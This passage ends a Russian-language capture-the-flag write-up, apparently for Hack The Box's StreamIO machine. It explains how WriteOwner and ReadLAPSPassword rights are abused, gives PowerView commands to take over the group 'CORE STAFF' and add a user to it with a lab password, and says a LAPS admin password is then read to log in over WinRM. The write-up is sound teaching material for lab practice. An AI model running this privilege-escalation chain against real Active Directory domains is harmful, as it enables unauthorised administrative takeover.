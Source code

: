 *Номера в этом списке соответствуют тем же номерам на схеме*.
1. Привилегия write owner означает, что JDgodd может изменить владельца группы 'CORE STAFF', если мы сделаем владельцем пользователя, которого мы контролируем, мы сможем добавлять пользователей в эту группу.
2. Привилегия [ReadLAPSPassword](https://www.thehacker.recipes/ad/movement/dacl/readlapspassword) для группы CORE STAFF означает, что вы можете прочитать из LAPS пароль учетной записи компьютера (т.е. пароль локального администратора компьютера).

#### Выполняем атаку

##### Делаем JDgodd владельцем группы 

*Создаём объект кредов для JDgodd*
```powershell
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword)
```

*Добавляем nikk37 to 'CORE STAFF'*
```powershell
#set the owner of CORE STAFF to be JDgodd
Set-DomainObjectOwner -Identity 'CORE STAFF' -OwnerIdentity 'JDgodd' -Credential $Cred

#Give all rights on CORE STAFF to JDgodd (to allow us to write members)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "CORE STAFF" -Rights All -PrincipalIdentity JDgodd

#Add nikk37 to the group core staff
Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'nikk37' -Credential $Cred
```

![df467cd45de263f69c29f1088e2f2669.png]({{ site.baseurl }}/images/df467cd45de263f69c29f1088e2f2669.png)

После этого *nikk37* сможет прочитать пароль учетной записи локального администратора из LAPS. Мы можем сделать это с помощью netexec.

![393ba2e805d78518d662b4e1dbe362da.png]({{ site.baseurl }}/images/393ba2e805d78518d662b4e1dbe362da.png)

Мы получаем пароль Администратора и логинимся через winrm

![4f6013cca0cd1fb2bab74fded732904f.png]({{ site.baseurl }}/images/4f6013cca0cd1fb2bab74fded732904f.png)

Запавнено.

Удачного взлома друзья!
(Не используйте знания во вред, только там где вам разрешил владелец ресурса.)
